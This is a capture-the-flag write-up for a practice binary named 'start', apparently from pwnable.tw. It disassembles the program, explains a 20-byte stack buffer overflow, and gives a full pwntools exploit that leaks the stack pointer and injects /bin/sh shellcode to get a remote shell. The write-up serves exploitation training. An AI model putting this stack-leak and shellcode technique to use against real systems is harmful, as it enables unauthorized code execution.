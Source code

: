 # start

file:

```
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

checksec:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols     No        0               0       start
```

## solution

The program prompts for some input in stdin and does nothing.

Lets open the binary up in r2. There is only one function, `entry0()`.

```
[0x08048060]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[0x08048060]> afl
0x08048060    1 61           entry0
[0x08048060]> pdf @ entry0
┌ 61: entry0 ();
│           0x08048060      54             push esp                    ; [01] -r-x section size 67 named .text
│           0x08048061      689d800408     push loc._exit              ; 0x804809d ;
│           0x08048066      31c0           xor eax, eax
│           0x08048068      31db           xor ebx, ebx
│           0x0804806a      31c9           xor ecx, ecx
│           0x0804806c      31d2           xor edx, edx
│           0x0804806e      684354463a     push 0x3a465443             ; 'CTF:'
│           0x08048073      6874686520     push 0x20656874             ; 'the '
│           0x08048078      6861727420     push 0x20747261             ; 'art '
│           0x0804807d      6873207374     push 0x74732073             ; 's st'
│           0x08048082      684c657427     push 0x2774654c             ; 'Let''
│           0x08048087      89e1           mov ecx, esp
│           0x08048089      b214           mov dl, 0x14                ; 20
│           0x0804808b      b301           mov bl, 1
│           0x0804808d      b004           mov al, 4
│           0x0804808f      cd80           int 0x80
│           0x08048091      31db           xor ebx, ebx
│           0x08048093      b23c           mov dl, 0x3c                ; '<' ; 60
│           0x08048095      b003           mov al, 3
│           0x08048097      cd80           int 0x80
│           0x08048099      83c414         add esp, 0x14
└           0x0804809c      c3             ret
```

There are a few things to note:


* The `int 0x80` is an interrupt used for syscalls.
* `al` is the lowest byte of the `eax` register.
* `bl` is the lowest byte of the `ebx` register.
* `dl` is the lowest byte of the `edx` register.

looking at the linux 32-bit syscall table [here](https://syscalls32.paolostivanin.com/), there are two syscalls used in `start`:

* `sys_write`: `eax` = 0x04 with `mov al, 4` with `ebx` = 0x01 (stdout)
* `sys_read`: `eax` = 0x03 with `mov al, 3` with `ebx` = 0x00 (stdin)

for these two syscalls, `eax` defines which syscall, `ebx` is the fd, `ecx` is a `*buf`, and `edx` is the read count.

The program first [writes](https://man7.org/linux/man-pages/man2/write.2.html) to the fd (stdout) from the buffer with up to `0x14` (20) bytes. It later [reads](https://man7.org/linux/man-pages/man2/read.2.html) up to `0x3c` (60) bytes from the fd (stdin) to the buffer. Problematically, the buffer is only 20 bytes in size so this is a classic buffer overflow.

To find/confirm the offset, use ragg2 to generate a fuzzing payload and use r2 to debug

```bash
$ ragg2 -P 100 -r > fuzzing.txt; echo '#!/usr/bin/rarun2\nstdin=./fuzzing.txt' > profile.rr2
$ r2 -de dbg.profile=profile.rr2 start                                                  
[0x08048060]> dc
Let's start the CTF:[+] SIGNAL 11 errno=0 addr=0x41414841 code=1 si_pid=1094797377 ret=0
[0x41414841]> pxq 4@eip
0x41414841  0x00000000ffffffff
[0x41414841]> wopO 0x41414841
20
```

Basically the program crashed with a segfault as the instruction pointer is an invalid address, in this case `0x41414841`. As the fuzzing payload was a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily find the offset required to infringe upon the eip: 20. This is where we want to inject the payload.

Given this is a simple buffer overflow and there aren't any win functions, we will need to craft some shellcode to spawn a shell so we can `cat /home/start/flag`. To execute this, we need to put the shellcode into where the stack pointer is on the stack.

We can jump back to `0x08048087` we can print the value of the `esp` register to stdout.

```py
mov_addr = 0x8048087

stage_1 = b"A"*0x14 + p32(mov_addr)

p.recvuntil(b":")
p.send(stage_1)
leaked_addr = u32(p.recv()[:4])
```

We also need to add 0x14 to the `esp` since the leaked stack pointer doesn't exactly point to the stack, but its 20 bytes behind.

The final solve script with shellcode:


```py
#!/usr/bin/env python3

from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10000)
    else:
        p = elf.process()

context(os="linux", arch="i386")
context.binary = elf = ELF("./start")
start()

mov_addr = 0x8048087

stage_1 = b"A"*0x14 + p32(mov_addr) 

p.recvuntil(b":")
p.send(stage_1)
leaked_addr = u32(p.recv()[:4])
log.info(f"leaked address: {hex(leaked_addr)}")

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
    ]))

stage_2 = b"A"*0x14 + p32(leaked_addr + 0x14) + shellcode
p.send(stage_2)
p.interactive()
```
